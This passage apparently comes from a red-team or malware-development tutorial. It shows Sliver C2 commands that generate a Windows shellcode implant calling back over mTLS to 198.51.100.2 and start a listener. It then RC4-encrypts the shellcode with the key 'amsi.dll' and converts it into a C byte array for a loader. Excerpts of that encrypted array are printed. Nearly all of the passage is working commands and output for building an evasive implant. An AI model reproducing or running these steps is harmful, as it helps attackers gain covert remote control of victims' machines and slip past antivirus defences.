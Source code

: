 ```shell
sliver > generate -f shellcode --mtls 198.51.100.2 -s /tmp/buf.bin -G --skip-symbols

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 1s
[!] Shikata ga nai encoder is disabled
[*] Implant saved to /tmp/buf.bin
```

after that it's as simple as just start the Listener.

```shell
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #5

sliver >
```

This will take care of the SliverC2 side of things, however the shellcode is not ready for the loader yet. The shellcode first needs to be encrypted. 

```shell
python3 ~/rc4.py "amsi.dll" buf.bin
Written buf.bin.enc
```

This encrypts the shellcode with our key called `amsi.dll` and outputs the file as `buf.bin.ec`. Then I'm going to rename the `buf.bin.enc` file to `buf` and the reason for this is when using the `xxd` command to format our `buf` file to useable `C` code it takes the filename and stores that as the `unsigned char` name. Which saves opening the file and manually editting. (Alternatively sed to the rescue `sed -i 's/<oldname>/buf/g' /tmp/shellcode.c`)

```c
$head shellcode.c     

unsigned char buf[] = {
  0x20, 0xfa, 0x22, 0xb5, 0xf0, 0x9c, 0x75, 0xd3, 0x0f, 0x77, 0xf2, 0x88,
  0xcc, 0xc4, 0xf5, 0x18, 0x8e, 0x2c, 0xe2, 0x42, 0xa9, 0x89, 0xa0, 0x67,
  0x82, 0xbe, 0xb0, 0xb0, 0xca, 0x14, 0x21, 0xa3, 0x37, 0xad, 0xf4, 0x51,
  0x26, 0x7b, 0xf6, 0xb8, 0x2e, 0x2b, 0x0e, 0xf8, 0x81, 0xf7, 0xc3, 0xd3,
  0xbe, 0xa4, 0xc5, 0x36, 0x40, 0x8c, 0xe1, 0x61, 0xf4, 0xfe, 0x01, 0x06,
  0xd2, 0xf2, 0x10, 0xeb, 0xdc, 0xe4, 0xc9, 0xf1, 0xfa, 0xf7, 0xcd, 0x74,
  0xcb, 0xab, 0x6f, 0xf7, 0x25, 0x78, 0x89, 0xc5, 0x23, 0x7c, 0x5a, 0x68,
  0xd3, 0xbc, 0x7d, 0x3d, 0x37, 0x49, 0x22, 0xba, 0x4f, 0x45, 0x81, 0xa1,
  0xb5, 0x08, 0x2e, 0xd7, 0x13, 0xd5, 0xf6, 0x71, 0x48, 0xed, 0x87, 0x32,
```

```c
$ tail shellcode.c

  0x69, 0xf4, 0xd1, 0x2d, 0x13, 0xc1, 0xe5, 0x19, 0x9a, 0x50, 0xd0, 0x77,
  0xb6, 0x1b, 0x68, 0x69, 0xcb, 0xfc, 0x7d, 0x69, 0xcc, 0x58, 0x9f, 0x78,
  0x88, 0xfc, 0x93, 0xe0, 0xe7, 0x05, 0xdc, 0xf5, 0xd3, 0x84, 0x89, 0x76,
  0x30, 0xd2, 0x3d, 0x46, 0xb6, 0xfe, 0x70, 0xd6, 0xac, 0x87, 0x3b, 0xa7,
  0xea, 0xf9, 0xbd, 0x46, 0xd1, 0xf2, 0x1a, 0x2e, 0x56, 0xa6, 0x04, 0xf4,
  0x45, 0xcc, 0xd7, 0x6f, 0x96, 0x13, 0xce, 0xdd, 0xdf, 0xdc, 0x44, 0x7a,
  0xed, 0x0a, 0xa2, 0xe2, 0xb1, 0x17, 0xcf, 0x57, 0x23, 0xcf, 0x21, 0x3b,
  0x07, 0x46, 0x0b, 0x72
};
unsigned int buf_len = 10013404;
```

